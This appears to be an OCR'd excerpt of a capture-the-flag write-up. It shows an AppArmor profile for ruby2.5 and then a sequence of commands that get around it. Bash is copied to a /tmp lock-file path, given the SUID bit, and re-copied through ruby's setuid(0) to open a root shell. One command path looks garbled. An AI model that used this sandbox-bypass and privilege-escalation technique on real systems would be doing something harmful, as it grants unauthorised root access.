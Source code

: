 If the apparmor is enabled? we investigate with the following commands:
```bash
ls /etc/apparmor.d/
usr.bin.ruby2.5  usr.sbin.rsyslogd  usr.sbin.tcpdump

cat usr.bin.ruby2.5

/usr/bin/ruby2.5 {
  #include <abstractions/base>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /etc/passwd r,
  /bin/cat mrix,
  /bin/cp mrix,
  /bin/ls mrix,
  /usr/bin/whoami mrix,
  /tmp/.X[0-9]*-lock rw,
  /lib/x86_64-linux-gnu/ld-*.so mr,
  /usr/bin/ruby2.5 mr,
  /usr/share/rubygems-integration/all/specifications/ r,
  /usr/share/rubygems-integration/all/specifications/did_you_mean-1.2.0.gemspec r,
  /{usr/,}lib{,32,64}/** mr,

}
```
Exactly, there are restricting rules, we can only use cat, cp and ls, whoami with ruby and also only read and write on /tmp folder with a specific regex.

We bypass it with theese commands:
```bash
cp /bin/bash ./.X6-lock #command to copy bash binary to a new file who respect the apparmor's regex
chmod +s .X6-lock #command to set SUID bit
ruby -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X6-lock /tmp/.X2-lock"' #command to create a copy of a new .X6-lock (SUID with alvin) in /tmp/.X2-lock(SUID root)

./.tmp/.X2-lock -p #command to enable new shell as root user
```
We're root and we can retrieve the las flag in the /root folder.
